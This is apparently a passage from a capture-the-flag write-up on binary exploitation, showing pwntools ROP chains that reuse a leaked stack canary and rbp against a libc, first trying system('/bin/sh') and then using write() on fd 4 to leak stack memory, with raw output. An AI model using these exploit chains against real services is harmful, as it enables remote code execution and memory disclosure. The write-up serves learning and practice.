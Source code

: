 ## How about a ROP chain

It was at this point I actually copied in the libc from ubuntu 22.04, calculated the libc base address and tried different rop strategies in libc.

## ROP 2 system("bin/sh") - Nope! wth?

So I did the obvious and tried to call system("bin/sh").

```
rop = ROP(libc)
rop.call(rop.ret)
rop.system(next(libc.search(b'/bin/sh\0')))

io = start()
io.sendafter(b'> ', flat({ 0x48: p64(canary), 0x50: p64(rbp), 0x58: rop.chain()}))
io.interactive();
```
Output:
```
Failed to accept connection.: Socket operation on non-socket
```

Damn.. 

Got the same when trying puts:

```
rop.call(rop.ret)
rop.puts(rbp)
```

Tried `write`, and got some output at last when using fd=4. Used the leaked rbp minus an offset to try to find the input buffer. After a couple of attempts I found this at offset -0x70
(looking for the cyclic pattern "aaaabaaacaaa")

```
rop = ROP(libc)
rop.write(4, rbp-0x70, 200)

io = start()
io.sendafter(b'> ', flat({ 0x48: p64(canary), 0x50: p64(rbp), 0x58: rop.chain()}))
io.recvuntil(b'qaaaraaa')  # remove the first echo of the buffer
io.interactive();
```

Output:
```
[*] Switching to interactive mode
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaa\x00Y\x15\xa09\xf6Ъ\x8b\x9b\xfd\x97\x1cA\x7f\x00\xc8\x00\x00\x00eaaafaaaQ\xce
\xfbA`\xaa\x8b\x9b\xfd\xe5\xb3\x0cA\x7f\x00\x04\x00\x00\x00 Z\x1b\xfbA\x00\x00\x10\x00\x00\x00\x03\x00\x04\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xcc
\x00\x96
```
